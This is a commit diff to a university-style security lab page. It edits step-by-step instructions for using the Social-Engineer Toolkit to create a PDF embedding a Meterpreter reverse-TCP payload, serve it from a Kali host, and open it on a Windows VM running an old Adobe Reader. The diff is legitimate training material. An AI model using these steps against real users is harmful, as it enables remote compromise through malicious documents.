

Before and after one commit to security-assignments/security-assignments.github.io, a Jekyll site: the page built from _labs/lab_social_engineering.md, in a window 1280 px wide and 900 px high, scrolled down 6997 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
New updates to social engineering lab

```diff
--- a/_labs/lab_social_engineering.md
+++ b/_labs/lab_social_engineering.md
@@ -240,23 +240,23 @@ Download and install a vulnerable version of Adobe Reader to the Windows 10 vm.
     * `1) Social-Engineering Attacks`
     * `3) Infectious Media Generator`
     * `1) File-Format Exploits`
-    * enter kali ip address
+    * Enter the Kali IP address: `192.168.55.101`
     * `13) Adobe PDF Embedded EXE Social Engineering`
-    * `2. Use built-in BLANK PDF for attack` (unless you're feelinga adventurous, in which case you can create your own)
+    * `2. Use built-in BLANK PDF for attack` (unless you're feeling adventurous, in which case you can create your own)
     * `2) Windows Meterpreter Reverse_TCP`
-    * Accept default for payload listener LHOST
-    * Accept default for port to connect back on
-    * Let `set` create a listener right now (`yes`)
+    * Accept default for payload listener LHOST by pressing enter.
+    * Accept default for port to connect back on by pressing enter.
+    * Let `SET` create a listener right now (`yes`)
 
 2.  SET will have put the created payload in `/root/.set/template.pdf`. Your goal now is to get this pdf onto the victim machine.
-    If you still have the python server running in the `/tmp` dir from the fake adobeupdate part of this lab, then you can just move this payload there and download it
-    to the victim machine as before. From a different Kali terminal than the `set` one:
+    If you still have the Python server running in the `/tmp` dir from the fake adobeupdate part of this lab, then you can just move this payload there and download it
+    to the victim machine as before. From a different Kali terminal than the `SET` one:
 
         mv /root/.set/template.pdf /tmp
 
     You can rename it to whatever you like.
 
-3.  On the victim machine, open the downloaded file with Adobe Reader
+3.  On the Windows 10 VM, save the PDF to the desktop by browsing to `http://192.168.55.101:8888`. Open the downloaded file with Adobe Reader
 
     * Right-click the downloaded file > `Open with...` > 'Adobe Reader 9.0`
 
```
